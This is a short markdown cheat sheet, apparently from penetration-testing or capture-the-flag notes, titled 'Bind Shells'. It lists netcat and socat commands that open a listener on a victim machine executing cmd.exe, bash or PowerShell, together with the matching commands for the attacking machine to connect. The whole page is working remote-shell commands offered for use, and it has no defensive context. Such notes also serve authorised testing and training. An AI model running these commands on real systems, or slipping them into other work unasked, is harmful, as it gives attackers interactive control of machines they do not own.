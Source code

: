 ```yaml
---
title: Bind Shells
description:  Setting up a listener on the victim machine for the attacker to connect to
---
```


## Netcat
On the target:
```bash
nc -lvnp <port> -e "cmd.exe"
```
On the attacking machine:
```bash
$ nc MACHINE_IP <port>
```

## Socat
On a Linux target:
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```
On a Windows target:
```bash
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
On the attacking machine:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

